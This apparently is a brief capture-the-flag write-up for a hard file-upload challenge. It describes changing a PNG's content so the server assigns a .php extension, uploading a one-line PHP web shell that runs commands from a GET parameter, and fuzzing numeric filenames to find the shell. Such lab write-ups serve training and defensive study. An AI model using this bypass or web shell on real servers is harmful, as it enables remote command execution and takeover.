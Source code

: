 files challenge | Hard

this is file upload challenge but the name for file is random and the extention also not the same when you upload file 
the extention name take it from content of file so to solve this challenge 
send any png image and in first line(for the content of image) or second you will see png change it to php and send php code to take a web shell
The php code --> <?php system($_GET['cmd']); ?>

now you need to find the file after do some fuzzing you will see upload directory do fuzzing in the name for file what is will be like this 321.php so you will do fuzz in 321 until find your shell and you will end the challenge
